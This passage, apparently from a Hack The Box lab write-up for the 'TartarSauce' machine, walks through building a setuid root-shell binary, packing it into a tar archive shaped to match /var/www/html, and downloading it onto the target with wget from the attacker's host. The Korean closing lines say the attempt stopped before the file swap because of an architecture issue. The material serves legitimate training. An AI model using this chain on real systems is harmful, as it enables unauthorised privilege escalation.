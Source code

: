 Then, I compiled it.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ i686-linux-gnu-gcc -m32 -o setuid_shell setuid_shell.c 


┌──(kali㉿kali)-[~/htb/tar]
└─$ ls setuid_shell
setuid_shell
```

Create a directory which has a same depth as `/var/www/html`.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ mkdir -p var/www/html 
```

Then, let's copy the binary into the directory.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ cp setuid_shell var/www/html
```

Then, grant SETUID permission.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ chmod 6555 var/www/html/setuid_shell 


┌──(kali㉿kali)-[~/htb/tar]
└─$ ls -al var/www/html/setuid_shell 
-r-sr-sr-x 1 kali kali 15048 Mar  4 08:00 var/www/html/setuid_shell
```

Archive it.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ tar -zcvf setuid.tar.gz var
var/
var/www/
var/www/html/
var/www/html/setuid_shell
```

Then upload this to the target server. (Via python webserver)

```bash
onuma@TartarSauce:/var/tmp$ wget http://10.10.14.3:8000/setuid.tar.gz
wget http://10.10.14.3:8000/setuid.tar.gz
--2025-03-04 10:07:01--  http://10.10.14.3:8000/setuid.tar.gz
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2542 (2.5K) [application/gzip]
Saving to: 'setuid.tar.gz'

setuid.tar.gz       100%[===================>]   2.48K  --.-KB/s    in 0s      

2025-03-04 10:07:02 (468 MB/s) - 'setuid.tar.gz' saved [2542/2542]
```


> 이제 5분 주기로 타이머 실행될때 파일 바꿔치기 하고 check 폴더안에 쉘 실행하면 끝인데,, 아키텍쳐 이슈로 여기서 종료.
> 나중에 윈도우 PC서 다시 시도 필요!